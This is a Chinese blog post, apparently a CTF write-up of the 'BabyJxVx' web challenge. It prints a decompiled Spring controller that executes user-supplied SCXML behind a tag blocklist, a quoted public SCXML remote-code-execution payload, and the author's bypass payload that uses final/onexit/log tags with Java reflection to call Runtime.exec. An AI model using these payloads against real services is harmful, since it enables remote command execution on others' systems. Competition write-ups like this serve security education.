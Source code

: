 ```yaml
---
title: "WEB-BabyJxVx-海南大学第四届网络安全技能挑战赛"
published: 2023-04-22
description: ""
category: 胡乱折腾
---
```


## WEB

#### BabyJxVx

反编译附件查看路由信息

```
package com.example.babyjxvx.FlagController;

import java.io.IOException;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import org.apache.commons.scxml2.SCXMLExecutor;
import org.apache.commons.scxml2.model.SCXML;
import org.apache.commons.scxml2.p004io.SCXMLReader;
import org.springframework.beans.factory.xml.BeanDefinitionParserDelegate;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;
import org.w3c.dom.Document;
import org.xml.sax.SAXException;

@Controller
/* loaded from: BabyJxVx.jar:BOOT-INF/classes/com/example/babyjxvx/FlagController/Flagcontroller.class */
public class Flagcontroller {
    private static Boolean check(String fileName) throws IOException, ParserConfigurationException, SAXException {
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        DocumentBuilder builder = dbf.newDocumentBuilder();
        Document doc = builder.parse(fileName);
        int node1 = doc.getElementsByTagName("script").getLength();
        int node2 = doc.getElementsByTagName("datamodel").getLength();
        int node3 = doc.getElementsByTagName("invoke").getLength();
        int node4 = doc.getElementsByTagName("param").getLength();
        int node5 = doc.getElementsByTagName("parallel").getLength();
        int node6 = doc.getElementsByTagName("history").getLength();
        int node7 = doc.getElementsByTagName("transition").getLength();
        int node8 = doc.getElementsByTagName("state").getLength();
        int node9 = doc.getElementsByTagName("onentry").getLength();
        int node10 = doc.getElementsByTagName("if").getLength();
        int node11 = doc.getElementsByTagName("elseif").getLength();
        if (node1 > 0 || node2 > 0 || node3 > 0 || node4 > 0 || node5 > 0 || node6 > 0 || node7 > 0 || node8 > 0 || node9 > 0 || node10 > 0 || node11 > 0) {
            return false;
        }
        return true;
    }

    @RequestMapping({"/"})
    public String index() {
        return BeanDefinitionParserDelegate.INDEX_ATTRIBUTE;
    }

    @RequestMapping({"/Flag"})
    @ResponseBody
    public String Flag(@RequestParam(required = true) String filename) {
        SCXMLExecutor executor = new SCXMLExecutor();
        try {
            if (check(filename).booleanValue()) {
                SCXML scxml = SCXMLReader.read(filename);
                executor.setStateMachine(scxml);
                executor.m89go();
                return "Revenge to me!";
            }
            System.out.println("nonono");
            return "revenge?";
        } catch (Exception var5) {
            System.out.println(var5);
            return "revenge?";
        }
    }
}
```

Flag路由下有xml解析，盲猜存在xee漏洞

然后百度发现了最近的一篇远程rce漏洞

原文地址

[Apache Commons SCXML Remote Code Execution](https://pyn3rd.github.io/2023/02/06/Apache-Commons-SCXML-Remote-Code-Execution/)[Apache Commons SCXML Remote Code Execution](https://pyn3rd.github.io/2023/02/06/Apache-Commons-SCXML-Remote-Code-Execution/)

原文给出的exp

```
<?xml version="1.0"?>
<scxml xmlns="http://www.w3.org/2005/07/scxml" version="1.0" initial="run">
<state id="run">
<onentry>
<assign location="s" expr="''.getClass().forName('java.lang.Runtime').getRuntime().exec('open -a calculator')"/>

</onentry>
</state>
</scxml>
```

不过在这个题目中存在了很多过滤。想办法绕过

贴一个文档

[一文讲通状态机 SCXML与XState对应关系 - 掘金 (juejin.cn)](https://juejin.cn/post/7052882670396637197#heading-11)

发现了state被过滤

后续发现了标签可以代替state

然后执行代码的script过滤了可以用其他的代替正好

final标签可以包含标签

然后利用onexit标签构造一个就可以了

具体的exp为

```
<?xml version="1.0"?>
<scxml xmlns="http://www.w3.org/2005/07/scxml" version="1.0" initial="wa1ki0g">
    <final id="wa1ki0g">
       <onexit>
            <log location="rce" expr="''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'你的命令')" />
        </onexit>
 </final>
</scxml>
```

xc注意命令要xml特色字符转义

然后就可以了
